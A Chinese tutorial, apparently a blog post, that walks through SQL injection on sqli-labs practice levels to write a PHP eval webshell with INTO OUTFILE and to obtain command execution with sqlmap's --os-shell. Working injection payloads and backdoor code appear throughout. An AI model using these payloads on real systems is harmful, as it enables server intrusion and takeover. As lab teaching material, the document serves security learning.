使用sqlmap写入webshell

SQL注入的本质是通过恶意SQL语句操控数据库，而部分数据库支持执行系统命令或写入文件。若能利用注入点向 Web目录写入一句话木马，即可通过中国菜刀/蚁剑连接获取Shell。

寻找SQL注入点 → 判断数据库类型 → 获取Web路径 → 写入WebShell → 连接shell

通过into outfile进行文件写入

利用条件：

1. 拥有网站的写入权限

2. 知道网站的绝对路径

3. Secure_file_priv参数为空或可写目录（在mysql/my.ini中查看）

Secure_file_priv 是用来限制load dumpfile、into outfile、load_file()函数在哪个目录下拥有上传和读取文件的权 限。在mysql 5.6.34版本以后 secure_file_priv的值默认为NULL。

secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出

当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下

当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

查看secure_file_priv参数的值

在mysql/my.ini[mysqld]中查看是否有secure_file_priv 的参数，没有的话加上secure_file_priv = 即可，再查看 secure_file_priv的值如下已经变为空了 。



写入shell（以sqli-labs第七关为例）

通过输入 ?id=3')) and sleep(3) --+ 时成功延时，发现存在注入点就为3'))



通过 order by 3 回显正常、 order by 4 报错，判断为3列





写入shell

?id=-3')) union select 1,'<?php @eval($_POST[test]); ?>',3 into outfile 'C:/phpStudy/WWW/sql/outfile.php' --+





成功

访问使用sql语句写入的文件，路径为写入的路径

http://192.168.214.142/sql/outfile.php



使用蚁剑进行链接，链接的url是文件路径



利用sqlmap（以sqli-labs第一关为例）

利用条件：

1. 拥有网站的写入权限，能够使用单引号

2. 知道网站的绝对路径

3. Secure_ file_priv参数为空或可写目录（在mysql/my.ini中查看）

python sqlmap.py -u "http://192.168.214.142/sql/Less-1/?id=1" --sql-shell  //进入命令行



查看文件路径

select @@datadir;   //（mysql/data的路径，根目录一般与mysql处于同一目录）



查看secure_file_priv 参数值

select @@secure_file_priv  //若为空则什么都不显示，若为NULL则显示NULL



写入shell

--os-shell

#让 SQLMap 帮你拿到一个“操作系统级别的命令行”，直接在目标服务器上执行系统命令（如 whoami、dir、ipconfig 等）

python sqlmap.py -u "http://192.168.214.142/sql/Less-1/?id=1"  --os-shell





sqlmap在指定的目录生成了两个文件（文件名是随机的，并不是固定的）： tmpuzqrt.php—— 文件上传页面

tmpbqemz.php—— 核心 Webshell（Backdoor / 后门）



打开tmpbqemz.php文件找到链接密码



构建传参，尝试访问tmpbqemz.php

http://192.168.214.142/sql/tmpbqemz.php?cmd=whoami



利用成功
